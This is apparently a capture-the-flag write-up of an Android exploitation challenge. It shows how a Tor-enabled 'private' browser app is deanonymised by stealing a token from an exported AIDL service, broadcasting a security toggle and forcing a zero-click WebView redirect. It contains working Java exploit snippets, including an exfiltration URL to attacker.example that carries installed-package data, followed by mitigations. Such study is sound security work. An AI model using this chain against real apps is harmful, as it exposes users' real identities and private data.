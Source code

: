 ```yaml
---
title: "Challenge 07: DroidView"
published: 2025-11-01
description: "Silent Tor bypass and deanonymization in a ‘private’ Android browser via exported AIDL service abuse, dynamic receiver timing, and zero‑click WebView redirection."
image: "https://lwfiles.mycourse.app/66c35021da1fe6df974b8aee-public/42e3aa7f390f8662c067b48de036761c.png"
category: "Mobile"
tags: ["android", "8ksec.io", "mobile-exploitation", "aidl", "webview", "privacy", "ipc"]
series:
  id: "8ksec-android-challenges"
  order: 7
---
```


*( بِسْمِ اللَّـهِ الرَّحْمَـٰنِ الرَّحِيمِ )*

:::caution
 #FreePalastine
:::

---

## **DroidView: From “Private Browser” To Real Exposure**

This challenge set out to prove that a Tor‑enabled “private browser” can be silently turned against its users and forced to reveal their real identity with zero interaction, and it delivered exactly that through a clean abuse chain: exported `AIDL` service → token theft → dynamic receiver timing → forced navigation in `WebView`, all on a non‑rooted device with no runtime permissions, and all within the victim app’s own surface, as required, which makes the privacy breach undeniable to the end user’s threat model.

### Initial Discovery

The app identifies itself as a Tor‑integrated WebView browser, exposes a custom action to load URLs, and wires a security toggle behind an intent path that looks “protected” by a token, which immediately drew attention to how that token is minted, stored, and verified.

Key high‑level observations during manifest and code review (POV notes):

- `TokenService` is exported and implements an `AIDL` stub that returns the “current” security token to any binder client without permission checks.
- `MainActivity` registers the security toggle `BroadcastReceiver` dynamically in `onCreate`, so external broadcasts only land when the activity is live, which implies timing matters for a headless attack.
- `LOAD_URL` is handled as an `Activity` intent (`onNewIntent`/`handleIntent`), not as a broadcast, so redirection must use `startActivity` with the custom action, not `sendBroadcast`.
- `WebView` has JavaScript enabled and proceeds on SSL errors, while file access is disabled and no `JavascriptInterface` is exposed, shaping what data can be reasonably exfiltrated from the attacker page.

---

### Understanding the Moving Parts

Before building payloads, I mapped the security flow and where control transitions occur.

#### Token lifecycle (how “the key” is made)

- A random 32‑char token is generated, then encrypted with `AES‑128‑CBC` using the first 16 bytes of a hardcoded string, with a random IV prepended, and the result is `Base64`‑encoded and stored in a `SQLite` table.
- Validation simply compares the stored encrypted blob to the provided value; there is no decryption step in validation, which means stealing the encrypted blob is sufficient to authenticate disabling security.

#### Toggle path (how Tor is switched)

- Disabling security via the toggle receiver requires a valid token, but the receiver is only registered after MainActivity starts, so external attempts must ensure the activity is up.
- When disabled, the app clears proxy overrides, unregisters Tor status listeners, resets caches/history, and routes WebView traffic directly, thus exposing the device’s real IP on subsequent loads.

#### Navigation path (how we force the victim to our page)

- The app honors `ACTION_LOAD_URL` in `onNewIntent`/`handleIntent` and, for external requests with security disabled, immediately calls `loadUrl()` without user input, which is the zero‑click we need for redirection.

---

### Attack Plan

My plan was to keep everything inside the victim’s own surfaces, prove the Tor control can be subverted without UI, and then demonstrate deanonymization solely through WebView navigation to an attacker page.

1) Steal the token via the exported `AIDL` `TokenService`, which returns the encrypted blob the app itself later compares against.
2) Ensure the dynamic receiver is actually alive by starting `MainActivity`, then broadcast the security toggle with the stolen token to flip Tor off.
3) Start the same activity again with `ACTION_LOAD_URL` pointing to my server so the app’s `WebView` loads my page directly, no taps required.
4) On the attacker page, use JavaScript to collect real IP and device fingerprint and exfiltrate to a controlled endpoint; optionally, have the POC app collect installed packages (via `PackageManager`) and pass them along as a URL param to keep exfiltration “via WebView.”

---

### The Exploit Chain

Below are the essential snippets I used, annotated from my POV as I iterated and troubleshot.

### Step 1: Token Theft (AIDL bind + getSecurityToken)

- Create `aidl/com/eightksec/droidview/ITokenService.aidl` mirroring the target signature, then bind and call `getSecurityToken()`, logging the returned `Base64` blob.

```java
// AIDL
package com.eightksec.droidview;
interface ITokenService {
  String getSecurityToken();
  boolean disableSecurity();
}
```

```java
// Bind & steal (MainActivity of POC)
Intent svc = new Intent("com.eightksec.droidview.ITokenService");
svc.setPackage("com.eightksec.droidview");
bindService(svc, conn, BIND_AUTO_CREATE);
// onServiceConnected → ITokenService.Stub.asInterface(binder).getSecurityToken()
```

### Step 2: Make the receiver “hear” us

- Because the toggle receiver is registered dynamically in `onCreate` and not static, I first start the victim `MainActivity` to ensure it registers before I send the disabling broadcast.

```java
Intent open = new Intent();
open.setComponent(new ComponentName("com.eightksec.droidview", "com.eightksec.droidview.MainActivity"));
open.addFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
startActivity(open);
// wait ~2s for receiver registration
```

### Step 3: Disable Tor

- With `MainActivity` active, broadcasting `ACTION_TOGGLE_SECURITY` with `enable_security=false` and the stolen encrypted token flips the browser into direct-network mode.

```java
Intent off = new Intent("com.eightksec.droidview.TOGGLE_SECURITY");
off.setPackage("com.eightksec.droidview");
off.putExtra("security_token", stolen);
off.putExtra("enable_security", false);
sendBroadcast(off);
// wait ~3s for proxy clearing & service teardown
```

### Step 4: Zero‑click redirection

- `LOAD_URL` is handled by the activity, so using `startActivity` with the custom action and `EXTRA_URL` forces the `WebView` to load my page without the user pressing Go.

```java
String exfil = "https://attacker.example/exploit.html?apps=" + base64Apps;
Intent nav = new Intent("com.eightksec.droidview.LOAD_URL");
nav.setPackage("com.eightksec.droidview");
nav.putExtra("url", exfil);
nav.addFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
startActivity(nav);
```

---

### What the attacker page steals

The `WebView`’s JavaScript sandbox is enough to collect the victim’s real IP (since Tor is off), user‑agent, screen metrics, timezone, language, and other fingerprintable properties, which already meets the deanonymization objective since `Javascript` is enabled in the `WebView`

```java
settings.setJavaScriptEnabled(true);
```

:::note
I was too lazy to setup my own server to exfiltrate the data :"D
:::

![alt text](image.png)
![alt text](2025-11-01_00-46.png)

---

### Ummmm Why was the app vulnerable ?

- The exported `AIDL` `TokenService` returns the live security token to any client, with no signature/permission protection, enabling cross‑app theft on non‑rooted devices.
- Token validation compares encrypted strings directly, so the stolen `Base64` blob is itself the credential; nothing needs to be cracked or decrypted.
- The toggle receiver being dynamic isn’t a defense—starting the activity is trivial, after which the broadcast lands reliably and security is disabled.
- `ACTION_LOAD_URL` is an activity intent that auto‑loads external URLs when security is off and the intent is external, enabling zero‑click redirection to an attacker server.

---

### what broke and how I fixed it :"D

- AIDL errors: `Gradle` needed `buildFeatures.aidl=true` and the exact `AIDL` path to match the target package, or the compiler rejected the stub.
- `compileSdk` mismatch: `androidx.activity 1.11.0` required `compileSdk 36`, so I bumped the project’s `compileSdk` accordingly without changing `targetSdk`.
- Bind failures on Android 11+: fixed by adding `&lt;queries&gt;` to declare visibility of `com.eightksec.droidview`.
- Broadcast “doing nothing”: realized the toggle receiver is dynamic; launching `MainActivity` before broadcasting solved it.
- Redirection “not firing”: `LOAD_URL` is not a broadcast; changing `sendBroadcast` to `startActivity` with the action fixed navigation.

---

### Mitigations - developers please study security :(

- Lock down `TokenService` with signature‑level permission, or drop export entirely; never expose `getSecurityToken()` to untrusted callers.
- Validate tokens server‑style: don’t compare stored encrypted blobs; derive short‑lived capability tokens, bind to caller identity, and verify provenance.
- Make the security toggle internal‑only, or guard it with an explicit permission and receiver permission checks, and register it statically only if strictly necessary.

---

